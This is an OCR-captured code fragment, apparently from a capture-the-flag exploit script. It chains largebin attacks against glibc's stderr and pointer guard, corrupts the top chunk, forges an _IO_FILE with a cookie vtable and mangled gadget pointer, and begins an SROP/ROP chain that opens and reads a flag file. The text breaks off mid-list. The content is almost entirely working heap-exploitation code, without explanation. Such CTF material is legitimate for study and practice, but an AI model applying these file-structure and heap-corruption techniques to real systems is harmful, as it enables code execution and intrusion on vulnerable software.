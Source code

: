 ```plain
# largebin attack stderr
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run_opcode()

# largebin attack guard
delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)

# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()

next_chain = 0
srop_addr = heap_base + 0x2ae0 + 0x10
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
fake_IO_FILE += p64(srop_addr)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

fake_frame_addr = srop_addr
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

rop_data = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,

    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
```